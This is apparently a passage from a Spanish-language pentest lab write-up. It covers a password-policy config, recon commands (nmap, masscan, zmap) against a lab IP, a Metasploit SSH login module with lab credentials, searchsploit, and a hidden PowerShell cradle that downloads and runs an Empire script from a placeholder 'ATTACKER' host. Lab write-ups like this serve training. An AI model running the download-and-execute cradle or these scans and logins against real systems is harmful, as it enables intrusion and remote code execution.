 #### Políticas de Contraseñas
```bash
# /etc/security/pwquality.conf
minlen = 12
minclass = 3
maxrepeat = 2
dcredit = -1
ucredit = -1
lcredit = -1
ocredit = -1
```

---

## 8. HERRAMIENTAS COMPLEMENTARIAS

### 8.1 Herramientas de Reconocimiento
```bash
# Nmap con scripts adicionales
nmap --script=default,safe,vuln 172.20.4.179

# Masscan para escaneo rápido
masscan -p1-65535 172.20.4.179 --rate=1000

# Zmap para escaneo de red completa
zmap -p 22 172.20.4.0/24
```

### 8.2 Herramientas de Explotación
```bash
# Metasploit Framework
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 172.20.4.179
set USERNAME hackviser
set PASSWORD hackviser
run

# Searchsploit para búsqueda de exploits
searchsploit ssh
searchsploit -m linux/remote/exploit_id.py
```

### 8.3 Herramientas de Post-Explotación
```bash
# Empire Framework
powershell -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://ATTACKER/empire.ps1'))"

# Cobalt Strike Beacon (si está disponible)
# Configuración de payload y listener
```

---